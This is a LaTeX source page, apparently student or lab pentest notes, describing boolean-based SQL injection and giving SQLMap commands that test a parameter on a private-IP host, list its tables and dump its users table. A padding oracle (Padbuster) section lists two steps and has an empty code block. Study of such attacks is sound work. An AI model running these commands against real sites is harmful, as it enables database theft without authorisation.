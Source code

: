 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\textbf{SQL Injection boolean based} is a kind of \textbf{error based} technic. The difference here is that the attacker is not looking at the information because
it is not revealed by the web app. The only thing that the attacker know is if it's sql command get an error or not. As the time \textbf{time based} technic,
the attacker use that to guess the searched value.
In this case, \textbf{SQLMap} is usefull.

\hypertarget{sqlmap}{%
\section*{SQLMap}\label{sqlmap}}

\textbf{SQLMap} is an automatic tool that perform sql injections.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sqlmap}\NormalTok{ -u http://10.124.211.96/details.php?id=2}
\CommentTok{# SQLMap identify the param id as injectable}
\ExtensionTok{sqlmap}\NormalTok{ -u http://10.124.211.96/details.php?id=2 --tables}
\CommentTok{# SQLMap get the tables and db information}
\ExtensionTok{sqlmap}\NormalTok{ -u http://10.124.211.96/details.php?id=2 -D db -T users --dump}
\CommentTok{# SQLMap dump the users table}

\end{Highlighting}
\end{Shaded}

\hypertarget{padding-oracle-attack-padbuster}{%
\section*{Padding Oracle Attack (Padbuster)}\label{padding-oracle-attack-padbuster}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Recover cookie session and name
\item
  Decode cookie with padbuster

\begin{Shaded}
\end{Shaded}
\end{enumerate}
\end{document}
